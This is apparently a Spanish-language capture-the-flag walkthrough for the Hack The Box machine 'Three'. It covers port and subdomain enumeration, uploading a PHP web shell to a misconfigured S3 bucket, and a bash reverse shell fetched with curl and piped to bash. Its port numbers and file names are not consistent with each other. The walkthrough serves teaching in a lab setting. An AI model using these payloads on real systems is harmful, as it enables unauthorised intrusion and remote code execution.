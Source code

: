 ```yaml
---
title: Three HTB walkthrough
published: false
---
```


# Responder HTB walkthrough

En este artículo trataremos la resolucion de la máquina Trhree de Hack the Box.

## Fase de reconocimiento

Comenzamos lanzando un ping para comprobar que la máquina se encuentra activa. En base al ttl comenzamos a sospechar que se trata de una máquina linux. A continuación lanzamos nmap en busca de puertos abiertos, utilizando parámetros que aceleren la busqueda:

```bsh
$sudo nmap -p- --open -sS --min-rate 5000 -n -Pn <ip>
```

Obteniendo:

```bsh
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Sospechamos que se trata de una página web, así que la inspeccionamos.

### Reconocimiento de la página web

En la página web no se aprecia nada sospechoso, es una simple página estática. Analizamos con *whatweb*:

```s
$whatweb 10.129.204.158
http://10.129.204.158 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[mail@thetoppers.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.204.158], Script, Title[The Toppers]
```

Tanto en whatweb como el la propia página, en la sección de *contacto*, podemos identificar el dominio *thetoppers.htb*. Tras añadirlo al */etc/hosts*, podríamos tratar de enumerar posibles subdominios, utilizando gobuster:

```s
$sudo gobuster vhost -w subdomains-top1million-5000.txt -u http://thetoppers.htb
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.4
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/02/02 11:07:50 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]
Found: gc._msdcs.thetoppers.htb Status: 400 [Size: 306]

```

Obteniendo que existe un subdominio *s3.thetoppers.htb*. Si hacemos una búsqueda rápida de algo como *"s3 subdomain status running"*, comprobaremos que se trata de un servicio de almacenamiento en la nube que nos permite almacenar objetos en contenedores llamados *buckets*.

## Interactuando con el bucket s3

Para interactuar con este servicio utilizaremos una utilidad llamada *awscli*. La instalamos con `$sudo apt install awscli`. Además, antes de utilizarla debemos configurarla, porque aunque en ocasiones el servicio no requiera utenticación, la utilidad requiere tener algún valor para funcionar:

```s
$aws configure
aws configure
AWS Access Key ID [None]: temp 
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

Ahora ya podemos tratar de listar el contenido del bucket:

```
$aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2023-02-02 09:14:10          0 .htaccess
2023-02-02 09:14:11      11952 index.php
```

Vemos un par de archivos (*index.php* y *.htaccess*) y el directorio *images*, lo que nos da a entender que podría ser la raíz del sitio web. *awslci* también nos permite copiar archivos a un bucket, por lo que podríamos intentar subir una shell al servidor. Antes vimos mediante whatweb que la página estaba escrita en php, por lo que utilizaremos el siguiente one-liner:

```php
<?php system($_GET["cmd"]); ?>
```

Lo guardamos en un fichero .php:

```s
$echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Y la subimos con:

```s
$aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

Y ya tendríamos la posibilidad de ejecución remota de comandos pasados como parámetros de la url. Por ejemplo:

```
http://thetoppers.htb/shell.php?cmd=id
```

Que devolvería:

```powershell
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Obteniendo una reverse shell

En este punto, podríamos tratar de conseguir que la máquina víctima se conectara de vuelta a nuestra máquina, otorgándonos una reverse shell. Para ello, creamos el siguiente fichero en bash:

```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

y nos quedamos en escucha mediante netcat por el puerto 443:

```s
nc -nvlp 1337
```

Además, crearemos en otra pestaña un servidor http con python en el puerto 8000:

```python
python3 -m http.server 8080
```

De esta forma, podemos desde el servidor buscar nuestra reverse shell conectádonos a nuestro equipo por el servidor http, para posteriormente pipear a bash para que se ejecute, entablando la conexión por el puerto 443:

```
http://thetoppers.htb/reverse_shell.php?cmd=curl%20<your_ip>:8080/reverseshell.sh|bash
```

Y una vez dentro, la flag está en /var/www/, enhorabuena, has conseguido la flag!